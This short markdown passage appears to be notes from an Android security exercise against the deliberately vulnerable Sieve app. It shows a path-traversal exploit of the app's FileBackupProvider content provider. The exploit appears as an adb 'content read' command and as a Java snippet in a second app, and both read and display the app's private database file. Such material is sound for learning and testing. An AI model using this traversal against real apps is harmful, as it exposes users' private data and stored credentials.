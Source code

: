 ```java
    }
```
### from adb shell
```shell
content read --uri content://com.mwr.example.sieve.FileBackupProvider/../../../../../../../../../data/data/com.mwr.example.sieve/databases/database.db | base64 -w 0  
```

### from another app
- java class
```java
TextView textView = findViewById(R.id.text);
        Uri uri = Uri.parse("content://com.mwr.example.sieve.FileBackupProvider/../../../../../../../../../data/data/com.mwr.example.sieve/databases/database.db") ;
        try {
            InputStream inputStream = getContentResolver().openInputStream(uri);
            InputStreamReader streamReader =  new InputStreamReader(inputStream);
            BufferedReader bufferedReader =  new BufferedReader(streamReader);
            String file = "";
            while (bufferedReader.ready()){
                file += bufferedReader.readLine();
                file += "\n";
            }
            textView.setText(file);
        }catch (Exception e){
            textView.setText(e.toString());
        }
```
- AndroidManifest
```xml
<queries>
  <package android:name="<Package name to attack>" ></package>
</queries>
```
